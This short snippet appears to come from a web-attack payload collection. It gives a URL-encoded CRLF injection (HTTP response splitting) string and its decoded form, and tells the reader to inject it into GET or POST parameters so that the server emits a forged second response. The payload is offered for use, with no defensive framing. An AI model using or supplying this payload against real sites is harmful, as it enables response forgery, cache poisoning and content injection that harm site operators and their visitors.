 ### inject this string into paramet (GET/POST)
```
%0a%0a%3c%68%74%6d%6c%3e%3c%62%6f%64%79%3e%66%69%72%73%74%3c%2f%62%6f%64%79%3e%3c%2f%68%74%6d%6c%3e%0a%0a%48%54%54%50%2f%31%2e%31%20%32%30%30%20%4f%4b%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%74%65%78%74%2f%68%74%6d%6c%0a%0a%3c%68%74%6d%6c%3e%3c%62%6f%64%79%3e%73%65%63%6f%6e%64%3c%2f%62%6f%64%79%3e%3c%2f%68%74%6d%6c%3e
```

### URL decoded:
```
<html><body>first</body></html>  

HTTP/1.1 200 OK  
Content-Type: text/html  

<html><body>second</body></html>  
```

